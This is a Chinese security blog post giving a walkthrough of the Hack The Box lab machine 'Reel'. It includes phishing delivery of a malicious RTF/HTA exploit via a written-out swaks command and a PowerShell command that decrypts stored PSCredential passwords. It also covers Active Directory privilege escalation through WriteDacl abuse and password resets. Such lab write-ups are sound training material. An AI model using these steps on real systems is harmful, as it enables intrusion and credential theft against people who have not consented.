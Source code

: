 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/iikON0nePiQ8aBZz3JWapg)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **76** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/zYxEsibHhhqHFXvQKic55dUSltLhKZhWS26N6nZiaz7TZhriaodk3GvvC5cnnSRwZR5f8TztGuKSBM7d2JMSl5iafcw/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/143

靶机难度：中级（5.0/10）

靶机发布日期：2018 年 11 月 10 日

靶机描述：

Reel is medium to hard difficulty machine, which requires a client-side attack to bypass the perimeter, and highlights a technique for gaining privileges in an Active Directory environment.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_gif/IwSh4vCvtCmAiahWWBCD6uVshNlbtsZxyBFdtQH49ia9feSkCyicQ3mgkNnn0DJR5ZYicTLj7IYQquYbqzXp3Y5HQA/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_gif/YnfnlicbPtFCfftiaRIe6t8lnrv9ueWwt2uANWPZAx8iaPnlPia0gncwDAsUiahaOibGg7mB0jYgTwdk6uNt4Bib5dHMw/640?wx_fmt=gif)

一、信息收集

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzBsklnQ0A5nkFO4RtEysDj2hO1MTOgleDE0SsJE5LUv4qeiaS24MdnrA/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.77....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzWrRlU16nChAl1ygTr6ZlvshWfnTK55c2iaib9iaVdWp1lvs7hIVAzicHIg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8Cz7gCXnrIoCnJBOFsDGTw8R6k3ufxyEWeQa9HY2tgYee4hTicNn5LlL5Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzOa7tZaM1AiareEiaKherC8W7hCDibTzggjpbAS6tMjpyia7YaYE2BpGFlg/640?wx_fmt=png)

Nmap 可以看到这是一台 Windows Server 2012 R2 服务器，该服务器承载 FTP，SSH，SMTP 和 Active Directory 域等服务...

可以看到 nmap 发现 ftp 是可以匿名访问的... 并且存在 documents 目录... 进去看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzyUWCquz3uH4fwdibhpcaSIc6QPIqKYUmFxP5KM0KMLsRpJoW7xheA8w/640?wx_fmt=png)

将 documents 目录文件全都下载了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzQSUwvzRzqibtXyiaYwicXicbgTYcYYnqTCAccvNichamP3fthiaXVRWernkg/640?wx_fmt=png)

意思是可以发送 xtf 格式的电子邮件给靶机... 继续查看下一个文件

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzJlNgj4bPR3rpwvqGKgPIJXzrUkovyHYXXkuUd8BukKvRIXKF3AwpLQ/640?wx_fmt=png)

果然，查看到了电子邮件...nico@megabank.com

这边有了电子邮件号，肯定是要给他发邮件的，而且发送的邮件内容得是. xtf 的... 这里又可以用钓鱼邮件恶意程序进行提权了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzO1qDj2wOURcIVQicFxhKl4HcEam9iaFGsxF3nR8wE8wiclcibjgMMxwPJw/640?wx_fmt=png)

这里我搜索了 rtf 的漏洞，这是一个 Microsoft Office oday 漏洞...

这个漏洞利用了. rtf 文件（或有些已重命名为. doc），该文件将连接到远程服务器，然后下载包含 HTML 应用程序内容的文件，并作为. hta 文件来执行，由于. hta 是可执行文件，因此攻击者可以在受害者的计算机上执行完整的代码，此逻辑错误还使攻击者可以绕过 Microsoft 开发的任何基于内存的缓解措施来执行....（可怕的 oday 漏洞）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzfIVlgZqP9f3fghO8fjhoLCQQqhQ0pvBkH73ExibqTOBVpTDoxGGO98w/640?wx_fmt=png)

查找到了 exploit，走起

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8Cz4W1W8Vrl5XwqVpTz48UOFkvOeic0ETBUaknHRwQJAZhcPJ2BlPeQthw/640?wx_fmt=png)

配置好后，这里还需要修改 FILENAME 为. rtf 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8Czv7DVrLKxZetRJV6iaoM5Xm2GQqIOnRv8PVC2tN7PyQe5r6CQ7zV5cmA/640?wx_fmt=png)

可以看到创建好了恶意程序. rtf 文件... 而且还托管在了 default.hta 上...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8Cz4x77ZkmIUKmiaia8PVyEtWWiaCFDCmenF9Ir3MiceQEXciaNYt4dvVj62AQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8Czl4VlGO1Y3alRbuDEq9ybBViazY2y1YV0Ro38m5U45onnic5qyiaicjicQ0g/640?wx_fmt=png)

```
swaks --to nico@megabank.com --server 10.10.10.77 --attach /root/.msf4/local/dayu.rtf
```

可以看到成功获得了 shell 壳...

这里还可以利用 mutt、sendemail、telnet 等等工具进行发送邮件... 不演示了... 最近头疼得厉害...

并且直接获得了 user 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzKRYiaUbWzZlsBDfRRD5KcYcIkDLFGScSqtYy9xCIx658ENgVsnUv1IA/640?wx_fmt=png)

可以看到，在 desktop 下还存在 xml 文件，查看后发现了有用的信息...

获得的信息有：XML 文件、Objs 版本是 1.1.0.1、PSC 的凭证、用户名：Tom、密码：哈希值...

那么需要破解这个哈希值即可...

找了半天以为是很好破解的哈希值，这里我还注意到了一个信息...PSCredential

PSCredential 是 powershell 中的一个对象，该对象提供了一种存储用户名，密码和凭据的方法，还有两个功能，Import-CliXml 和 Export-CliXml，用于将这些凭据保存到文件或从文件中还原他，开始利用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8Czzhg2CnfJfv4YlGianPAOVJVmQxLLWQKlhX7aiaKhUsTHul73EQGdrfTQ/640?wx_fmt=png)

```
powershell " $credential = Import-CliXml -Path 'C:\Users\nico\Desktop\cred.xml' ; $credential.getnetworkcredential() | fl *"
```

可以看到已经获得了密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzjEj9auLnUxb6O4GzZRNth1fLqiaeuMLaYoHNhh1v1Sib0W2VOYxo63lA/640?wx_fmt=png)

可以看到在 Tom 的桌面上，有一个名为 Bloodhound 的文件夹和一个文件 note.txt...

文件里告诉我们，SharpHound 允许我们发现 Active Directory 环境中的隐藏依赖关系，并且与 BloodHound 一起在图形界面中形成依赖关系..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CzscVdum0asy0NCwibTnSiayKfMIVy6d9Q1nkSTms335PuXd89nBdsExLw/640?wx_fmt=png)

继续往下看，可以看到存在了关系图 BloodHound... 把 acls.csv 放到本地，进行查看即可... 可以利用 smbserver 共享传递即可...

```
net use z: \\10.10.14.11\share
```

copy "文件" z:

这里我就不说分析 BloodHound 的事情了... 头很疼... 也忘了截图...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8Czy6UO7ugZicPDPbicIibXTRzfr8qMnocIU5mLOGnVSCDC40pPbIQdIFqXA/640?wx_fmt=png)

这里利用了系统里的 PowerView.ps1，然后 powershell 下利用对象进行修改了 claire 用户的密码... 成功修改...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8Czor9tbaNIGx0eF7WhO42vuzY5C5knYibmBhfuSQNzVBxo6icWvSNUO0Nw/640?wx_fmt=png)

经过前面的信息，知道 clair 对 Backup_Admins 组具有 WriteDacl 权限，我可以用它来将她添加到群组中。首先，看到该组的唯一成员是 ranj...

然后把 chair 加入进去...

可以看到已经成功加入了... 但是没生效，得重新登录...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8CztM3yYgTB6jxeFIFdBb7eEpRSZTcMcjLHZGQNiaSZia5xibricACYZC3AWw/640?wx_fmt=png)

重新登录后... 以 claire 和 Backup_Admins 的身份返回，可以检查 Administrator 文件夹上的权限了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8Czjo0k0VpwAwUsy85yCvLNKdxT6Zp0aLDB3VVErlShuf9sfCFiasqibs1g/640?wx_fmt=png)

这里可以看到 root 信息还无法查看... 继续往下走，在 BackupScript.ps1 里发现了 passwd... 这是管理员的密码... 真是一环套一环...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPVghnGJxz7UZBCWIJZL8Cz7CRibnjzu3UOhc3GR4h1B7GRpg9n5y5KoMt2nD38icV7pWpIvEGow7QQ/640?wx_fmt=png)

成功获得 root 信息...

![](https://mmbiz.qpic.cn/mmbiz_gif/Wic8BDGMRUojcP7P5MXxWPyW6sEXJUX24bQWIAqJHib0vdDp2dbEfveEaicTwLTba2CqibcMSGMpb6p6aopkkxhFjw/640?wx_fmt=gif)  

今天头很疼，但是还是下班后坚持拿下了这台靶机... 加油吧，努力的人都很幸运！！！

由于我们已经成功得到 root 权限查看 user.txt 和 root.txt，因此完成了中级靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_gif/b6beYwicB58hl0HVHYtRMBLZVmQhMLkWUBrDeZwjA5hIS9DgspzICqhF1IONibMQ3Il0nuicMZibGbRqCqzkQ8IYvw/640?wx_fmt=gif)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)